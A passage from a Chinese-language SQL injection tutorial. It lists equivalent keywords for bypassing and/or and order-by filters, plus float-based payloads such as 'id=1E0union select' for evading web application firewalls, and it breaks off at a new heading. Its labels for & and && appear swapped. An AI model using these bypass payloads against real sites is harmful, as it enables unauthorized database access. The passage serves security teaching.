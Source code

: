 #### 12、and/or

```sql
#等价关键字，在很多时候，当关键字被过滤后，可通过与其等价的其他关键字来绕过。
and
假如：select * from tb1 where id=1 and 1=1
此时和and等价关键字有：
	like（1 like 1。like可跟通配符。）
	rlike（1 rlike 1 rlike可跟正则表达式。）
	regexp（1 regexp 1 regexp可跟正则表达式。）
	&（1 && 1 ，逻辑与）
	&&（1 & 1，按位与，任意数&0的值为0）
	与and的结果都是1.

or
假如：select * from tb1 where id=1 or 1=1;
此时等价or的关键字有：
	||    （逻辑或）
	|    （按位或）
	任意数|0的值为任意数
```

#### 13、order by

```sql
# 当 order by 被过滤时，可以使用 into 变量名进行代替。
select * from user where id=1 into @a,@b

select * from user where id=1 into @a,@b,@c
```

![img](../images/【原创】渗透思路-SQL注入详解/t019795ca44a85f82a1.png)

### （三）WAF绕过

#### 1、浮点数绕过

```sql
# 通过浮点数的形式从而绕过。
id=1 union select 
—> id=1.0union select 
—> id=1E0union select
```

#### 2、添加库名绕过
